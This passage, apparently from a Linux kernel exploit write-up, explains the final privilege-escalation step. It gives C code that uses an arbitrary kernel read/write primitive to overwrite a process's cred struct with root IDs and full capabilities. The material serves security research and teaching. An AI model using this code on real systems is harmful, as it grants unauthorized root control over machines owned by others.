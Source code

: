 **Getting root privileges**

Now that we can write to every address in the address space, we can overwrite the kernel `cred` struct to make it like `init_cred` (which represents the first task in Linux).

```c
 * The initial credentials for the initial task
 */
struct cred init_cred = {
	.usage			= ATOMIC_INIT(4),
#ifdef CONFIG_DEBUG_CREDENTIALS
	.subscribers		= ATOMIC_INIT(2),
	.magic			= CRED_MAGIC,
#endif
	.uid			= GLOBAL_ROOT_UID,
	.gid			= GLOBAL_ROOT_GID,
	.suid			= GLOBAL_ROOT_UID,
	.sgid			= GLOBAL_ROOT_GID,
	.euid			= GLOBAL_ROOT_UID,
	.egid			= GLOBAL_ROOT_GID,
	.fsuid			= GLOBAL_ROOT_UID,
	.fsgid			= GLOBAL_ROOT_GID,
	.securebits		= SECUREBITS_DEFAULT,
	.cap_inheritable	= CAP_EMPTY_SET,
	.cap_permitted		= CAP_FULL_SET,
	.cap_effective		= CAP_FULL_SET,
	.cap_bset		= CAP_FULL_SET,
	.user			= INIT_USER,
	.user_ns		= &init_user_ns,
	.group_info		= &init_groups,
	.ucounts		= &init_ucounts,
};
```

Luckily for us a pointer to `cred` struct is stored inside `task_struct` so we can just read it with `kread64()` and then write to each member of the struct (using the releative offsets) with values from `init_cred`.

```c
void kernel_cred_patch() {
    printf("\t[+] reading cred pointer from task_struct\n");
    cred_kptr = kread64(task_cred_kptr);

    /* basically commit_cred(prepare_kernel_cred(0)); */
    kwrite32(cred_kptr + CRED_UID_OFFSET, GLOBAL_ROOT_UID);
    kwrite32(cred_kptr + CRED_GID_OFFSET, GLOBAL_ROOT_GID);
    kwrite32(cred_kptr + CRED_SUID_OFFSET, GLOBAL_ROOT_UID);
    kwrite32(cred_kptr + CRED_SGID_OFFSET, GLOBAL_ROOT_GID);
    kwrite32(cred_kptr + CRED_EUID_OFFSET, GLOBAL_ROOT_UID);
    kwrite32(cred_kptr + CRED_EGID_OFFSET, GLOBAL_ROOT_GID);
    kwrite32(cred_kptr + CRED_FSUID_OFFSET, GLOBAL_ROOT_UID);
    kwrite32(cred_kptr + CRED_FSGID_OFFSET, GLOBAL_ROOT_GID);
    kwrite32(cred_kptr + CRED_SECUREBITS_OFFSET, SECUREBITS_DEFAULT);
    kwrite64(cred_kptr + CRED_CAP_INHERITABLE_OFFSET, CAP_EMPTY_SET);
    kwrite64(cred_kptr + CRED_CAP_PERMITTED_OFFSET, CAP_FULL_SET);
    kwrite64(cred_kptr + CRED_CAP_EFFECTIVE_OFFSET, CAP_FULL_SET);
    kwrite64(cred_kptr + CRED_CAP_BSET_OFFSET, CAP_FULL_SET);
    kwrite64(cred_kptr + CRED_CAP_AMBIENT_OFFSET, CAP_EMPTY_SET);
}
```
